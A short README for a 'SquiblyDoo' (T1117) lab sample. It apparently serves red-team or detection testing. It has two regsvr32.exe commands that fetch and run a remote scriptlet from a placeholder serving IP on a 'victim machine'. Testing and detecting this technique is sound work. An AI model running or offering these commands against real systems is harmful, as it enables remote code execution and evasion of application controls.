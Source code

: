 # SquiblyDoo/T1117 Sample

On a machine with an HTTP Server, place the file "wordpad.sct" in the a served folder that can be accessed by the test/victim machine. If no HTTP Server is available you can use web_server.py from my repo (https://github.com/ColbyBurkett/Python-web-server). The serving folder is the same folder that web_server.py is running from.

**_Be sure to review the PDF for more information_**

**_Launch this from the victim machine:_**
```
regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
cmd.exe /c regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
```